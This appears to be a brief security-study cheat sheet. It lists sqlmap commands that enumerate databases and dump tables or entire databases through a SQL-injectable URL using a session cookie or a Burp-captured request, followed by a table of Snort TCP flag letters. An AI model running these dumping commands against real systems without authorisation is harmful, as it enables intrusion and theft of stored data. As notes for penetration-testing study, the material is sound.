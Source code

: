 ## SQL Injection using sqlmap
- Can use when URL vulnerable to SQL injection and find its corresponding cookie value

- Listing out all databases
	- Provide `url` and `cookie` as possible parameters
```
sudo sqlmap –u "<url>" --cookie="<cookie>" --dbs
```

- List out all information given a table name
```
sudo sqlmap -u "<url>" --cookie="<cookie>" -T <table name> --dump
```

- List out all information on a given database name
```
sudo sqlmap -u "<url>" --cookie="<cookie>" -D <database name> --dump-all
```

- Target a POST request endpoint
	- `request_file` refers to the packet taken using **Burpsuite as a proxy** to the client.
```
sudo sqlmap -r request_file -p target_parameters_from_file --dump
```

## Snort Flags
| Flag           | Argument |
| -------------- | -------- |
| FIN            | F        |
| SYN            | S        |
| RST            | R        |
| PSH            | P        |
| ACK            | A        |
| URG            | U        |
| Reserved Bit 1 | 1        |
| Reserved Bit 2 | 2        |
| No Flag        | 0        | 
